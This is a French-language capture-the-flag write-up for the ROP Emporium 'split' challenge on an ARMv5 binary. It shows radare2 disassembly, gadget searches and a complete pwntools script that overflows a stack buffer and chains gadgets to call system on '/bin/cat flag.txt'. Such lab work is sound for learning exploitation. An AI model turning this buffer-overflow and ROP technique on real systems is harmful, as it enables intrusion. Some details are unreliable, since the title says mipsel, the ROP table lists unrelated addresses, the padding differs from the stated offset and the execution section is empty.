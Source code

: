 ```yaml
---
Title: Ropemporium mipsel split
Date: 2023-06-11
Tags: [linux, python, ROP, mipsel, ropemporium, write-up]
Categories: [tutorial]
Author: cdpointpoint
---
```



# split armv5

## Introduction.

Dans ce second exercice on doit passer une argument à la fonction appelée.
L'argument est présent dans le programme


Execution du programme avec qemu



## Analyse

Le code de la fonction pwnme :

    [0x00010428]> pdf @sym.pwnme
                ; CALL XREF from main @ 0x10548
    ┌ 88: sym.pwnme ();
    │           ; var void *buf @ fp-0x24
    │           ; var int32_t var_4h_2 @ sp+0x20
    │           ; var int32_t var_4h @ sp+0x24
    │           0x00010570      00482de9       push {fp, lr}
    │           0x00010574      04b08de2       add fp, var_4h
    │           0x00010578      20d04de2       sub sp, sp, 0x20
    │           0x0001057c      24304be2       sub r3, buf
    │           0x00010580      2020a0e3       mov r2, 0x20
    │           0x00010584      0010a0e3       mov r1, 0                   ; int c
    │           0x00010588      0300a0e1       mov r0, r3                  ; void *s
    │           0x0001058c      9fffffeb       bl sym.imp.memset           ; void *memset(void *s, int c, size_t n)
    │           0x00010590      30009fe5       ldr r0, str.Contriving_a_reason_to_ask_user_for_data... ; [0x1068c:4]=0x746e6f43 ; "Contriving a reason to ask user for data..." ; const char *s
    │           0x00010594      8effffeb       bl sym.imp.puts             ; int puts(const char *s)
    │           0x00010598      2c009fe5       ldr r0, str.__              ; [0x106b8:4]=0x203e ; "> " ; const char *format
    │           0x0001059c      86ffffeb       bl sym.imp.printf           ; int printf(const char *format)
    │           0x000105a0      24304be2       sub r3, buf
    │           0x000105a4      6020a0e3       mov r2, 0x60                ; '`'
    │           0x000105a8      0310a0e1       mov r1, r3                  ; void *buf
    │           0x000105ac      0000a0e3       mov r0, 0                   ; int fildes
    │           0x000105b0      84ffffeb       bl sym.imp.read             ; ssize_t read(int fildes, void *buf, size_t nbyte)
    │           0x000105b4      14009fe5       ldr r0, str.Thank_you_      ; [0x106bc:4]=0x6e616854 ; "Thank you!" ; const char *s
    │           0x000105b8      85ffffeb       bl sym.imp.puts             ; int puts(const char *s)
    │           0x000105bc      0000a0e1       mov r0, r0                  ; 0x106bc ; "Thank you!"
    │           0x000105c0      04d04be2       sub sp, var_4h_2
    └           0x000105c4      0088bde8       pop {fp, pc}
    [0x00010428]> 




La fonction reasd est appelée avec un registre r1 chargé avec fp-0x24.
L'offset d'écrasement de l'adresse de retour est donc 0x28 soit 40 octets.


Le programme contient aussi la fonction usefulFunction qui appelle system("/bin/ls").

    [0x00010428]> pdf @ sym.usefulFunction 
    ┌ 24: sym.usefulFunction ();
    │           ; var int32_t var_4h @ sp+0x4
    │           0x000105d4      00482de9       push {fp, lr}
    │           0x000105d8      04b08de2       add fp, var_4h
    │           0x000105dc      08009fe5       ldr r0, str._bin_ls         ; [0x106c8:4]=0x6e69622f ; "/bin/ls" ; const char *string
    │           0x000105e0      81ffffeb       bl sym.imp.system           ; int system(const char *string)
    │           0x000105e4      0000a0e1       mov r0, r0                  ; 0x106c8 ; "/bin/ls"
    └           0x000105e8      0088bde8       pop {fp, pc}



La chaine de caractère utile est disponible dans le code.

    [0x00010428]> fs strings
    [0x00010428]> f
    0x00010660 21 str.split_by_ROP_Emporium
    0x00010678 7 str.ARMv5_n
    0x00010678 6 str.ARMv5
    0x00010680 9 str._nExiting
    0x00010680 8 str.Exiting
    0x0001068c 43 str.Contriving_a_reason_to_ask_user_for_data...
    0x000106b8 2 str.__
    0x000106bc 10 str.Thank_you_
    0x000106c8 7 str._bin_ls
    0x0002103c 18 str._bin_cat_flag.txt

    [0x00010428]> ps @ obj.usefulString 
    /bin/cat flag.txt
[



## Construction de l'attaque.

Notre objectif va être d'appeller la fonction system en appellant l'adresse 0x000105e0 avec en paramètre l'adresse la la chaine "/bin/cat flag.txt".

Pour passer le paramêtre il nous faut charger le registre r0 avec l'adresse 0x0002103c.

### Recherche de gadgets

Il nous faut d'abord un gadget qui permet de charger r0.

On ne trouve pas de gadget avec un pop r0.
*E revanche on trouve de operation de type mov.)

ropemporium/armv5/split# ROPgadget --binary split_armv5 --depth 3|grep mov
0x000105e0 : bl #0x103ec ; mov r0, r0 ; pop {fp, pc}
0x000105e4 : mov r0, r0 ; pop {fp, pc}
0x000105bc : mov r0, r0 ; sub sp, fp, #4 ; pop {fp, pc}
0x00010558 : mov r0, r3 ; pop {fp, pc}
0x00010634 : mov r0, r7 ; blx r3
0x00010630 : mov r1, r8 ; mov r0, r7 ; blx r3
0x00010554 : mov r3, #0 ; mov r0, r3 ; pop {fp, pc}
0x00010504 : mov r3, #1 ; strb r3, [r4] ; pop {r4, pc}

0x00010558 : mov r0, r3 ; pop {fp, pc}

On recherche un pop pour charge r3 :

    ropemporium/armv5/split# ROPgadget --binary split_armv5 --depth 2|grep pop|grep r3
    0x000103a0 : bl #0x10464 ; pop {r3, pc}
    0x00010558 : mov r0, r3 ; pop {fp, pc}
    0x000103a4 : pop {r3, pc}
    0x00010654 : push {r3, lr} ; pop {r3, pc}
    0x00010508 : strb r3, [r4] ; pop {r4, pc}

On eput retenir pour charger r0 :

    0x000103a4 : pop {r3, pc}
    0x00010558 : mov r0, r3 ; pop {fp, pc}



### La ropchaine

| ROP entry | comment |
| ----------- | ------- |
| 0x000103a4v | pop {r3, pc}|
| 0x004009ec | appel system |
| 0x004009c8 | @ /bin/cat flag.txt |


## Exploitation

### Script python 

``` python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('split_armv5')

gs='''
b *pwnme+64
c
'''

# 0x000103a4 : pop {r3, pc}
g_popr3 = 0x000103a4
# 0x00010558 : mov r0, r3 ; pop {fp, pc}
g_movr0r3 = 0x00010558


if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


time.sleep(.5)


io.recvuntil(b"> ")

usefulString = elf.symbols["usefulString"]
usefulFunction = elf.symbols["usefulFunction"]
system = usefulFunction+12

log.info(f"{usefulString=:x}")
log.info(f"{system=:x}")
log.info(f"{g_popr3=:x}")

PL=0x20*b"A"
PL+=p32(0)              # Pour fp
PL+=p32(g_popr3 )
PL+=p32(usefulString)
PL+=p32(g_movr0r3 )
PL+=p32(0)              # Pour fp
PL+=p32(system)
io.sendline(PL)
io.interactive()


``` 
### Execution










